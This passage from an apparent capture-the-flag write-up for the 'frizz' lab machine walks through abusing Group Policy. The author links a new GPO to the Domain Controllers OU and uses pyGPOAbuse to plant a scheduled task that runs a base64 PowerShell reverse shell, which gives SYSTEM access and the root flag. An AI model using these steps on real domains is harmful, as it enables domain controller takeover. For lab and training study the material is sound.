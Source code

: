 ```powershell

frizz\Group Policy Creator Owners            Group            S-1-5-21-2386970044-1145388522-2932701813-520  Mandatory group, Enabled by default, Enabled group

Authentication authority asserted identity   Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group

frizz\Denied RODC Password Replication Group Alias            S-1-5-21-2386970044-1145388522-2932701813-572  Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\Medium Mandatory Level       Label            S-1-16-8192
```

## GPO Abuse

We could create a GPO using `New-GPO` and link it using `New-GPLink` commands. The target OU is the `Domain Controllers` OU.

```powershell
PS C:\Users\M.SchoolBus> Get-ADDomainController -Filter * | Select-Object ComputerObjectDN

ComputerObjectDN
----------------
CN=FRIZZDC,OU=Domain Controllers,DC=frizz,DC=htb
```

The target OU is `OU=Domain Controllers,DC=frizz,DC=htb`.

```powershell
PS C:\Users\M.SchoolBus> New-GPO -Name jergal | New-GPLink -Target "OU=Domain Controllers,DC=frizz,DC=htb"

GpoId       : d9036dd1-24b4-4a7d-be90-d704a8967a85
DisplayName : jergal
Enabled     : True
Enforced    : False
Target      : OU=Domain Controllers,DC=frizz,DC=htb
Order       : 2
```

Grab the GPO id because we need it for [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse).

```bash
 pygpoabuse -k frizz.htb/M.SchoolBus@frizzdc.frizz.htb -gpo-id '<GPO_ID>' -ccache M.SchoolBus.ccache -dc-ip frizzdc.frizz.htb -powershell -command "powershell -e <base64_revshell>" -taskname "yolo" -description "yolo"
```

Then, update the GPO using `gpupdate` or `gpupdate /force` command and you should have a reverse shell.

# Shell as nt authority\system

## Root flag

```powershell
PS C:\Windows\system32> cat /Users/Administrator/Desktop/root.txt
deadbeef85c73cd2136e5780d253fake
```
